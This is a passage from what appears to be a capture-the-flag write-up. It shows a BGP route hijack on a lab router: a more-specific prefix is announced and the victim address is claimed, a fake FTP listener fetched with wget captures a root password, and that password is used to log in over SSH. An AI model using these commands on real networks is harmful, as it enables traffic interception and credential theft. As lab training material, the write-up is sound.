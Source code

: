 ```bash
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.11.2 route-map to-as300 out
!
ip prefix-list 0xdf seq 5 permit 10.120.15.0/25
!
route-map to-as200 permit 10
!
route-map to-as300 permit 10
!
ip forwarding
!
line vty
!
end

root@r1:/dev/shm# configure terminal
r1(config)# router bgp 100
r1(config)# network 10.120.15.0/32
r1(config)# end

root@r1:/dev/shm# ip address add 10.120.15.10/24 dev eth2
```

I used this [ftpclient.py](https://github.com/RG-Belasco/PythonStuff/blob/master/ftpclient) script and downloaded it on the box using `wget` and ran the script to get FTP credentials.

```bash
root@r1:/tmp# python3 ftpclient.py
On 0.0.0.0 : 21
Enter to end...
Received: USER root
Received: PASS BGPtelc0rout1ng
Received: PASV
open 0.0.0.0 54905
Received: QUIT
```

Let's try to login using SSH using the obtained credentials.

```bash
root@kali# ssh root@10.10.10.105
root@10.10.10.105's password: BGPtelc0rout1ng
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 12 00:57:08 UTC 2019

  System load:  0.0                Users logged in:       0
  Usage of /:   40.8% of 19.56GB   IP address for ens33:  10.10.10.105
  Memory usage: 31%                IP address for lxdbr0: 10.99.64.1
  Swap usage:   0%                 IP address for lxdbr1: 10.120.15.10
  Processes:    216

 * Meltdown, Spectre and Ubuntu: What are the attack vectors,
   how the fixes work, and everything else you need to know
   - https://ubu.one/u2Know

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

4 packages can be updated.
```